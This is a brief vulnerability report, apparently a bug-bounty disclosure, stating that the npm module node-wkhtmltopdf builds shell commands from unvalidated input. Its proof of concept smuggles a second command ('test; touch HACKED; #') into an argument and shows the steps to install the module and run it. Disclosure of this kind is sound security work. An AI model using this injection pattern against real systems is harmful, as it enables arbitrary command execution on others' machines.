 # :bug: Description

The `node-wkhtmltopdf` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var wkhtmltopdf = require("node-wkhtmltopdf");
wkhtmltopdf("", "test", "test; touch HACKED; #", function(err){});

```
2. Check there aren't files called `HACKED` 
3 Execute the following commands in another terminal:

```bash
npm i node-wkhtmltopdf # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
